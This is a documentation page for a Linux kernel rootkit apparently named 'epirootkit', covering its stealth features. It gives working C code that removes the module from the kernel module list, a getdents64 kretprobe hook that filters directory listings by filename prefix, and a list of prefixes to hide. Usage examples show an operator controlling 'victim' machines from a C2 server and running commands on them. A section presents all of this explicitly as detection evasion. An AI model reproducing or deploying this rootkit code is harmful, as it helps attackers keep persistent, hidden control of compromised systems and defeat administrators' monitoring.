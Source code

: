 ```yaml
---
title: "Stealth & Hiding"
description: "Module hiding and file hiding capabilities"
icon: "visibility_off"
date: "2025-05-25T00:00:00+01:00"
lastmod: "2025-05-25T16:00:00+01:00"
draft: false
toc: true
weight: 512
---
```


# Stealth & Hiding

Hide the rootkit module and files from system detection using kernel hooking techniques.

## What We Implemented

### Module Hiding
- **Hide from `lsmod`**: Remove module from kernel module list
- **Hide from `/proc/modules`**: Module not visible in procfs
- **Dynamic control**: Toggle visibility via C2 commands

### File Hiding
- **Hide by prefix**: Files with specific prefixes are hidden
- **Directory listing**: Intercept `getdents64` syscall
- **Automatic hiding**: Enabled by default when module loads

## Module Hiding

### How It Works
1. **Find module**: Locate rootkit in kernel module list
2. **Remove from list**: Use `list_del()` to remove from `modules` list
3. **Store reference**: Keep pointer to restore later
4. **Toggle visibility**: Can hide/unhide dynamically

### Implementation
```c
int hide_module(void)
{
    struct module *mod;
    
    mutex_lock(&module_mutex);
    list_for_each_entry(mod, &modules, list) {
        if (mod == THIS_MODULE) {
            stealth_state.prev_module_entry = mod->list.prev;
            list_del(&mod->list);
            stealth_state.module_hidden = true;
            break;
        }
    }
    mutex_unlock(&module_mutex);
    return 0;
}
```

### Usage
```bash
# Hide the module
c2-server$ config Client-1
# Select: Toggle Module Hiding
# ✓ Module hidden

# Verify hiding (from victim system)
victim$ lsmod | grep epirootkit
# (no output - module is hidden)

# Check status
c2-server$ status Client-1
# Module Hidden: YES
```

### Detection Evasion
- **`lsmod` command**: Module not listed
- **`/proc/modules`**: Entry removed from procfs
- **System monitoring**: Most tools rely on these sources

## File Hiding

### How It Works
1. **Hook `getdents64`**: Use kretprobe to intercept directory listings
2. **Filter entries**: Remove files with configured prefixes
3. **Modify buffer**: Adjust directory entry buffer
4. **Return filtered**: Send modified listing to userspace

### Hidden File Prefixes
Files starting with these prefixes are automatically hidden:
```c
static const char * const hide_prefixes[] = { 
    "epirootkit",
    "jules_est_bo_", 
    "memfd:",
    ".hidden_",
};
```

### Implementation
```c
static int getdents64_ret_handler(struct kretprobe_instance *ri, 
                                 struct pt_regs *regs)
{
    struct getdents_context *ctx = (struct getdents_context *)ri->data;
    const long ret_value = regs_return_value(regs);
    char *kernel_buffer;
    long filtered_size;

    // Copy user buffer to kernel space for filtering
    kernel_buffer = kmalloc(ret_value, GFP_ATOMIC);
    if (copy_from_user(kernel_buffer, ctx->user_buffer, ret_value) == 0) {
        filtered_size = filter_directory_entries(kernel_buffer, ret_value);
        if (filtered_size != ret_value) {
            copy_to_user(ctx->user_buffer, kernel_buffer, filtered_size);
            regs_set_return_value(regs, filtered_size);
        }
    }

    kfree(kernel_buffer);
    return 0;
}
```

### Examples of Hidden Files
```bash
# These files are hidden from 'ls' output:
/tmp/epirootkit_temp
/var/log/epirootkit.log
/home/user/epirootkit_config
/tmp/jules_est_bo_secret
/tmp/.hidden_file
/tmp/memfd:something
```

### Testing File Hiding
```bash
# Create test files
c2-server$ exec Client-1 touch /tmp/epirootkit_test
c2-server$ exec Client-1 touch /tmp/normal_file

# List directory (file hiding active)
c2-server$ exec Client-1 ls -la /tmp/
# Only shows: normal_file (epirootkit_test is hidden)

# Files still exist and accessible
c2-server$ exec Client-1 cat /tmp/epirootkit_test
# Works fine - file exists but hidden from listings
```

## Dynamic Control

### Interactive Configuration
```bash
c2-server$ config Client-1
# ┌─ Configuration - Client-1
#   Current Configuration:
#   [X] Module Hiding (Click to disable)
#   
# ? Select option: [Use arrow keys]
#   ❯ [X] Module Hiding (Click to disable)
#     Refresh Status
#     Exit
```

## Technical Details

### Syscall Hooking
- **Method**: kretprobe on `getdents64` syscall
- **Kernel version**: Compatible with Linux 5.4.0
- **Memory safety**: GFP_ATOMIC allocations with 4KB limit
- **Error handling**: Graceful fallback on allocation failures

### Module List Manipulation
- **Mutex protection**: Uses `module_mutex` for thread safety
- **List operations**: Standard kernel `list_del()` and `list_add()`
- **State tracking**: Maintains hiding state in global structure



### Customize Hidden Prefixes
Edit the `hide_prefixes` array in `stealth.c` to change which files are hidden.